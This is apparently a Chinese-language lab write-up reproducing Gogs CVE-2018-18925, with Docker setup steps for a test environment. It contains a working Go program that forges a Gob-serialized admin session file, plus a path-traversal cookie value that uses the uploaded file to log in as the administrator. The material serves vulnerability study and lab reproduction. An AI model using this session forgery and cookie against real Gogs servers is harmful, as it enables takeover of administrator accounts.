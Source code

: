# Gogs 任意用户登录漏洞（CVE-2018-18925）

gogs是一款极易搭建的自助Git服务平台，具有易安装、跨平台、轻量级等特点，使用者众多。

其0.11.66及以前版本中，（go-macaron/session库）没有对sessionid进行校验，攻击者利用恶意sessionid即可读取任意文件，通过控制文件内容来控制session内容，进而登录任意账户。

参考链接：

- https://github.com/gogs/gogs/issues/5469
- https://xz.aliyun.com/t/3168
- https://www.anquanke.com/post/id/163575

## 环境启动

执行如下命令启动gogs：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:3000`，即可看到安装页面。安装时选择sqlite数据库，并开启注册功能。

安装完成后，需要重启服务：`docker-compose restart`，否则session是存储在内存中的。

## 漏洞利用

使用Gob序列化生成session文件：

```go
package main

import (
    "bytes"
    "encoding/gob"
    "encoding/hex"
    "fmt"
    "io/ioutil"
    "os"
)

func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
    for _, v := range obj {
        gob.Register(v)
    }
    buf := bytes.NewBuffer(nil)
    err := gob.NewEncoder(buf).Encode(obj)
    return buf.Bytes(), err
}

func main() {
    var uid int64 = 1
    obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
    data, err := EncodeGob(obj)
    if err != nil {
        fmt.Println(err)
    }
    err = ioutil.WriteFile("data", data, os.O_CREATE|os.O_WRONLY)
    if err != nil {
        fmt.Println(err)
    }
    edata := hex.EncodeToString(data)
    fmt.Println(edata)
}
```

然后注册一个普通用户账户，创建项目，并在“版本发布”页面上传刚生成的session文件：

![](1.png)

通过这个附件的URL，得知这个文件的文件名：`./attachments/2eb7f1a2-b5ec-482e-a297-15b625d24a10`。

然后，构造Cookie：`i_like_gogits=../attachments/2/e/2eb7f1a2-b5ec-482e-a297-15b625d24a10`，访问即可发现已经成功登录id=1的用户（即管理员）：

![](2.png)

完整的利用过程与原理，可以阅读参考链接中的文章。
